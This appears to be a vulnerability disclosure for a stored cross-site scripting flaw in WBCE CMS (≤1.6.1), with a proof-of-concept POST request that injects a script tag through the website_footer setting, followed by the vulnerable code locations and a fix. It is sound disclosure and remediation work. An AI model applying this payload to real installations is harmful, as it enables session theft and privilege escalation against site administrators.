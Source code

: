 Vulnerability type : Cross Site Scripting

Vendor of the product(s) : https://github.com/WBCE/WBCE_CMS

Affected Product Code Base : WBCE_CMS - <=1.6.1

Affected Component : /admin/settings, /templates/wbcezon/index.php

Attack Type : Remote

Impact Escalation of Privileges : true

Impact Information Disclosure : true

Attack Vectors : Users can insert JavaScript statements by controlling website_footer


Stored Cross-Site Scripting

![image-20231014164109765](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014164109765.png)

request packet

```
POST /admin/settings/save.php HTTP/1.1
Host: localhost
Content-Length: 744
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost/admin/settings/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=XDEBUG_ECLIPSE; phpsessid-3877-sid=29rsln8q1kfe418al8e5i6i7p5; stElem___stickySidebarElement=%5Bid%3A0%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A1%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A2%5D%5Bvalue%3Aclosedsidebar%5D%23%5Bid%3A3%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A4%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A5%5D%5Bvalue%3Aclosedsidebar%5D%23%5Bid%3A6%5D%5Bvalue%3AnoClass%5D%23; WBCELastConnectJS=1697291720
Connection: close

advanced=no&formtoken=2efc8cf5-8b6dcd39a0b4833bc56072d9bf66c61b8f3c70e7&website_title=aaa&website_description=bbb&website_keywords=ccc&website_header=&website_footer=%3Cscript%3Ealert(345)%3c%2fscript%3e&page_trash=inline&home_folders=true&intro_page=false&frontend_login=false&frontend_signup=4&submit=&default_language=EN&default_timezone=13&default_date_format=d.m.Y&default_time_format=H%3Ai&default_template=wbcezon&default_theme=wbce_flat_theme&search=public&search_template=&page_spacer=-&app_name=phpsessid-3877&sec_anchor=wbce_&server_email=admin%40qq.coms&wbmailer_default_sendername=WBCE+CMS+Mailer&wbmailer_routine=phpmail&wbmailer_smtp_host=&wbmailer_smtp_port=&wbmailer_smtp_secure=&wbmailer_smtp_username=&wbmailer_smtp_password=
```



![image-20231014233644498](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014233644498.png)

This vulnerability can allow any user with settings privileges to obtain other user information, such as administrators with higher privileges

In /admin/settings/save.php#211

Insert HTML characters directly into the database without filtering

![image-20231014234154490](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014234154490.png)

Directly used echo in/templates/wbcezon/index.php

![image-20231014234544441](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014234544441.png)



Repair suggestions:

add Strings::htmlentities
